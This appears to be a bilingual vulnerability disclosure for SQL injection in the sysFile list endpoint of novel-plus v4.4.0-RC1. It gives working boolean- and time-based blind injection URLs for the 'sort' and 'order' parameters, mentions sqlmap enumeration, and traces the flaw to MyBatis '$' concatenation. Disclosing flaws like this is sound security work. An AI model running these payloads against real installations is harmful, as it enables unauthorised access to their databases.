 SQL injection vulnerability exists in novel-plus v4.4.0-RC1

novel-plus系统novel-admin子系统common/log/list接口存在SQL注入
The /common/sysFile/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

Affected version: v4.4.0-RC1

releases：https://github.com/201206030/novel-plus/releases/tag/v4.4.0-RC1


Payload:
```
parameter -sort-
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND 7858=(SELECT (CASE WHEN (7858=7858) THEN 7858 ELSE (SELECT 8757 UNION SELECT 2737) END))-- -&order=asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1 AND (SELECT 8148 FROM (SELECT(SLEEP(5)))yohp)&order=asc
parameter -order-
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND 4354=(SELECT (CASE WHEN (4354=4354) THEN 4354 ELSE (SELECT 8745 UNION SELECT 7606) END))-- - asc
http://127.0.0.1:8088/common/sysFile/list?limit=10&offset=0&sort=1&order=,1 AND (SELECT 2800 FROM (SELECT(SLEEP(5)))qQhq) asc
```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

parameter -sort-
![image](https://github.com/user-attachments/assets/64798adf-03a3-414d-be13-7552b604166a)

parameter -order-
![image](https://github.com/user-attachments/assets/31b7056c-c898-469d-8566-6e4259391c29)


The list interface in FileController calls the list method from FileService to query sysFile.

FileController中list接口调用FileService的list方法系统文件；

novel-admin/src/main/java/com/java2nb/common/controller/FileController.java

![image](https://github.com/user-attachments/assets/355fa270-78b1-497c-a17c-947d1623737d)

FileServiceImpl calls sysFileMapper to query the file.

FileServiceImpl中调用sysFileMapper查询文件；

novel-admin/src/main/java/com/java2nb/common/service/impl/FileServiceImpl.java

![image](https://github.com/user-attachments/assets/75ae0ce3-809f-4e55-88d5-d3b5fb7a2690)


In sysFileMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

sysFileMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/FileMapper.xml

![image](https://github.com/user-attachments/assets/5071c951-a2ab-4c99-9b18-1f52521a2434)










